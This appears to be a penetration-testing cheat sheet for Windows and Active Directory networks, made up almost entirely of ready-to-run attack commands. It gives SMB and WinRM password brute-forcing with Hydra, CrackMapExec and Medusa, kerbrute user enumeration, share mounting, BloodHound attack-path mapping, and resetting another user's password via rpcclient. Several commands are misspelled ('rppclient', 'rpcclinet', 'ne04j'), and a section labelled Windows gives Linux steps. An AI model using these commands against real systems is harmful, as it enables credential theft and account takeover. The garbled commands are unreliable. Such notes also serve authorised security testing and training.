 ### SMB Bruteforce

- Crackmapexec
- Hydra
- Medusa


#### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```

#### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 

```

#### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

### User Enumeration

- kerbrute

```bash
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d domain users.txt
```

### Mount 

```bash
# mount an anonymous login share
mount -t cifs '//10.10.*.*/ShareName' /mOuNt_Location

# mount an authenticated smb share
mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /mOuNt_Location
```

### BloodHound

#### On Windows

```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py
python3 bloodhound.py -u userName -p 'PASSWORD' -ns machineIP -d domain.local -c all 

# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Reset AD users passowrd with rppclient

```bash
# login to rpcclinet
rppclient -U userName machineIP
# password for the user we have access to

rpcclinet $> setuserinfo2 {userToChange} 23 '{PasswordToChange}'
# enumerates users which mostly will be AD Users
rpcclinet $> enumdomusers
# enumerate printers in the machine
rpcclinet $> enumprinters
```
